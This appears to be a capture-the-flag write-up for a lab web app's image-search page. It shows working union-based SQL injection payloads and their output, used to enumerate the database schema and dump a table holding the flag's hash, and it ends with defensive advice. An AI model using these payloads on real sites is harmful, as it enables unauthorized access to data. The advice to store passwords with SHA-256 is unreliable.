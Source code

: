 # Searching Page

__http://192.168.56.101/?page=searchimg&Submit=Submit__

## Description
This is a page for searching over the images. 

## Form Outputs
we can select for table names as in previous task [select table_name, 0 from information_schema.tables where table_schema=database()](#http://192.168.56.101/?page=searchimg&id=-1%20union%20select%20table_name,%200%20from%20information_schema.tables%20where%20table_schema=database()&Submit=Submit)
```
ID: -1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images
```
we can select for column names as in previous task [select column_name, column_type from information_schema.columns where table_schema=database()](#http://192.168.56.101/?page=searchimg&id=-1%20union%20select%20column_name,%20column_type%20from%20information_schema.columns%20where%20table_schema=database()&Submit=Submit)
```
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment
```
we can select sensetive data as in previous task [select title, comment from list_images](#http://192.168.56.101/?page=searchimg&id=-1%20union%20select%20title,%20comment%20from%20list_images&Submit=Submit)
```
ID: -1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: -1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: -1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: -1 union select title, comment from list_images 
Title: Earth!
Url : Earth
ID: -1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

## Flag
The flag we've got in MD5 hash [1928e8083cf461a51303633093573c46](#https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46)
Then we request albatroz name in 256 as in instruction 
```echo -n "albatroz" | shasum -a 256```


## Safety
When it comes to web development safety, there are a few key takeaways from this information: </br>
1. Input Validation: It is crucial to properly validate and sanitize user input, especially when it is used in database queries. The vulnerabilities demonstrated in the examples show how an attacker can manipulate the SQL queries by injecting malicious SQL code, resulting in unauthorized access to sensitive information.
2. Query Security: Use prepared statements or parameterized queries instead of directly concatenating user input into SQL statements. This helps prevent SQL injection attacks by separating the SQL code from user-supplied data.
3. Access Control: Ensure that users have appropriate access rights and privileges to perform actions on the website. Restrict access to sensitive data and functionality, and implement proper authentication and authorization mechanisms.
4. Secure Hashing: When storing passwords or sensitive information, use strong hashing algorithms like SHA-256. MD5 is considered weak and should not be used for security purposes.
5. Error Handling: Implement proper error handling mechanisms to avoid exposing sensitive information to the user in error messages or logs. Provide generic error messages to users and log detailed error information securely for internal debugging.
6. Secure Coding Practices: Follow secure coding practices, such as input validation, output encoding, and session management, to prevent common vulnerabilities like cross-site scripting (XSS) attacks and cross-site request forgery (CSRF) attacks.
